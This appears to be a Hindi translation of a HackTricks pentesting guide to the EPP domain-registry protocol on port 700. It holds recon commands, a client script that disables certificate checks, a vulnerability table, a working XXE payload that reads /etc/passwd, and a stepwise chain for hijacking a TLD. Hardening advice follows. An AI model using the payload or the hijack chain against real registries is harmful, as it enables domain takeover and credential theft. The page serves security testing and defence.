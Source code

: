 # 700 - Pentesting EPP

{{#include ../banners/hacktricks-training.md}}

## Basic Information

Extensible Provisioning Protocol (EPP) एक नेटवर्क प्रोटोकॉल है जो **डोमेन नामों और अन्य इंटरनेट संसाधनों के प्रबंधन** के लिए डोमेन नाम रजिस्ट्रियों और रजिस्ट्रार द्वारा उपयोग किया जाता है। यह डोमेन नाम पंजीकरण, नवीनीकरण, स्थानांतरण और हटाने की प्रक्रियाओं का स्वचालन सक्षम करता है, जिससे डोमेन नाम प्रणाली (DNS) में विभिन्न संस्थाओं के बीच एक मानकीकृत और सुरक्षित संचार ढांचा सुनिश्चित होता है। EPP को लचीला और विस्तारित करने योग्य बनाने के लिए डिज़ाइन किया गया है, जिससे इंटरनेट बुनियादी ढांचे की आवश्यकताओं के अनुसार नई सुविधाओं और आदेशों को जोड़ा जा सके।

बुनियादी रूप से, यह एक प्रोटोकॉल है जो **TLD रजिस्ट्रार डोमेन रजिस्ट्रारों को नए डोमेन पंजीकृत करने के लिए पेश करेगा**।

### Pentest

[**इस बहुत दिलचस्प लेख में**](https://hackcompute.com/hacking-epp-servers/) आप देख सकते हैं कि कुछ सुरक्षा शोधकर्ताओं ने पाया कि इस प्रोटोकॉल के कई **क्रियान्वयन** XXE (XML External Entity) के प्रति संवेदनशील थे क्योंकि यह प्रोटोकॉल संचार के लिए XML का उपयोग करता है, जिससे हमलावरों को विभिन्न TLDs पर नियंत्रण पाने की अनुमति मिलती।

---

## Enumeration & Recon

EPP सर्वर लगभग हमेशा TCP `700/tcp` पर TLS के माध्यम से सुनते हैं। एक सामान्य तैनाती **म्यूचुअल-TLS (mTLS)** को भी लागू करती है, इसलिए क्लाइंट को रजिस्ट्र्री CA द्वारा जारी एक मान्य प्रमाणपत्र प्रस्तुत करना चाहिए। फिर भी, कई निजी परीक्षण या पूर्व-उत्पादन तैनातियाँ उस नियंत्रण को भूल जाती हैं:
```bash
# Banner-grabbing / TLS inspection
nmap -p700 --script ssl-cert,ssl-enum-ciphers <target>

# Check if mTLS is *really* required (it frequently is not!)
openssl s_client -connect <target>:700 -quiet \
-servername epp.test 2>/dev/null | head
```
यदि सर्वर TLS हैंडशेक के बाद कनेक्शन समाप्त नहीं करता है, तो आप एक अनधिकृत `<hello/>` संदेश भेजने का प्रयास कर सकते हैं:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<epp xmlns="urn:ietf:params:xml:ns:epp-1.0">
<hello/>
</epp>
```
### Open-source clients useful for testing

* **epp-client (Go)** – सक्रिय रूप से बनाए रखा गया, TCP/TLS और EPP-over-HTTPS (RFC 8730) का समर्थन करता है:
`go install github.com/domainr/epp/cmd/epp@latest`
* **gandi/go-epp** – न्यूनतम क्लाइंट लाइब्रेरी जिसे फज़िंग या न्‍यूक्लीय-शैली के वर्कफ़्लो के लिए आसानी से उपकरणीकृत किया जा सकता है।
* **afq984/php-epp-client** – PHP कार्यान्वयन जो कई छोटे रजिस्ट्रार द्वारा उपयोग किया जाता है; कोड-रिव्यू के लिए एक सुविधाजनक लक्ष्य।

Example minimal login+check script with Go epp-client:
```go
package main
import (
"github.com/domainr/epp"
"crypto/tls"
)

func main() {
cfg := &tls.Config{InsecureSkipVerify: true}
c, _ := epp.DialTLS("epp.test:700", cfg)
c.Login("CLIENT_ID", "PASSWORD", nil)
resp, _ := c.DomainCheck("example","com")
println(resp)
}
```
---

## सामान्य कमजोरियाँ और 2023-2025 कमजोरियाँ

| वर्ष | घटक | CWE | प्रभाव |
|------|-----------|-----|--------|
| 2023 | CoCCA रजिस्ट्र्री < 3.5 | CWE-611 XXE | दूरस्थ फ़ाइल पढ़ना और SSRF तैयार `<epp>` पेलोड के माध्यम से (पैच: 2023-11-02) |
| 2024 | FRED EPP सर्वर 2.x | CWE-322 अपर्याप्त TLS प्रमाणपत्र सत्यापन | mTLS का बायपास अनधिकृत रजिस्ट्रार लॉगिन की अनुमति देता है |
| 2025 | स्वामित्व वाला रजिस्ट्रार पैनल | CWE-306 महत्वपूर्ण कार्य के लिए प्रमाणीकरण की कमी | डोमेन ट्रांसफर अनुमोदन अंत बिंदु EPP-HTTP पुल के माध्यम से उजागर हुआ |

### XXE / SSRF पेलोड (कई Java/Spring कार्यान्वयनों के खिलाफ काम करता है)
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<epp xmlns="urn:ietf:params:xml:ns:epp-1.0">
<command>
<check>
<domain:check xmlns:domain="urn:ietf:params:xml:ns:domain-1.0">
<domain:name>&xxe;</domain:name>
</domain:check>
</check>
</command>
</epp>
```
जब पार्सर गलत तरीके से कॉन्फ़िगर किया गया हो (`XMLInputFactory.IS_SUPPORTING_EXTERNAL_ENTITIES=true`), तो फ़ाइल की सामग्री `<resData>` संरचना के अंदर लौटाई जाती है।

### अन्य सामान्य निष्कर्ष

1. **कमजोर क्रेडेंशियल नीति** – EPP लॉगिन पासफ्रेज़ 8 अक्षरों से कम; ब्रूट-फोर्स अक्सर संभव है क्योंकि स्पेक केवल दर-सीमा लगाने की सिफारिश करता है (अनिवार्य नहीं)।
2. **गायब `registryLock` / `serverUpdateProhibited` स्थिति** – एक बार प्रमाणित होने के बाद, हमलावर तुरंत NS रिकॉर्ड अपडेट कर सकते हैं और ट्रैफ़िक चुरा सकते हैं।
3. **असाइन किए गए पोल संदेश** – कुछ कार्यान्वयन अभी भी पोल Q&A संदेशों पर हस्ताक्षर नहीं करते हैं, जिससे रजिस्ट्रार ऑपरेटरों की स्पूफिंग/फिशिंग संभव होती है।

---

## हमले का मार्ग: शून्य से TLD हाइजैक तक

1. एक EPP एंडपॉइंट खोजें (अक्सर एक सामान्य होस्ट जैसे `ot&e.<tld>.nic.<cc>` के पीछे छिपा होता है)।
2. उपरोक्त में से एक कमजोरी का दुरुपयोग करके रजिस्ट्रार-स्तरीय क्रेडेंशियल प्राप्त करें (XXE → SSRF से IMDSv1, क्रेडेंशियल एक्सफिल, या TLS-बायपास)।
3. `<update>` अनुरोध जारी करें ताकि डोमेन के `hostObj` रिकॉर्ड को हमलावर-नियंत्रित नाम सर्वरों में बदल सकें।
4. (वैकल्पिक) एक `<transfer>` सबमिट करें ताकि डोमेन को हमलावर-नियंत्रित रजिस्ट्रार में स्थानांतरित किया जा सके – कई रजिस्ट्रियां अभी भी **एकल ऑथ-कोड** पर निर्भर करती हैं।
5. लाभ: DNS क्षेत्र का पूर्ण नियंत्रण, ACME के माध्यम से TLS प्रमाणपत्रों के लिए अनुरोध करने की क्षमता।

---

## रक्षा उपाय और हार्डनिंग

* **mTLS को प्रति-रजिस्ट्रार क्लाइंट प्रमाणपत्रों** के साथ लागू करें और रजिस्ट्र्री CA को पिन करें।
* `parserFeature secure-processing=true` या समकक्ष सेट करें ताकि XXE को समाप्त किया जा सके।
* XML पार्सर का **निरंतर फज़िंग** करें (जैसे, `go-fuzz` या Java के लिए `jazzer` के साथ)।
* उच्च-मूल्य वाले डोमेन के लिए **Registry Lock / server*Prohibited** स्थितियों को लागू करें।
* संदिग्ध `<transfer>` या `<update>` आदेशों के लिए `poll` कतार की निगरानी करें और वास्तविक समय में अलर्ट करें।
* ICANN 2024 DNS-शोषण अनुबंध संशोधन रजिस्ट्रियों को दर-सीमा और प्रमाणीकरण नियंत्रण साबित करने की आवश्यकता करते हैं – उनका लाभ उठाएं।

## संदर्भ

* ICANN सुरक्षा और स्थिरता सलाहकार समिति (SSAC)। "SAC118: रजिस्ट्र्री ऑपरेटर की EPP सुरक्षा नियंत्रण लागू करने में विफलता के परिणाम"। 2024।
* HackCompute – "EPP सर्वरों को हैक करना: TLD को हाइजैक करने के लिए XXE का दुरुपयोग" (2023)।
{{#include ../banners/hacktricks-training.md}}
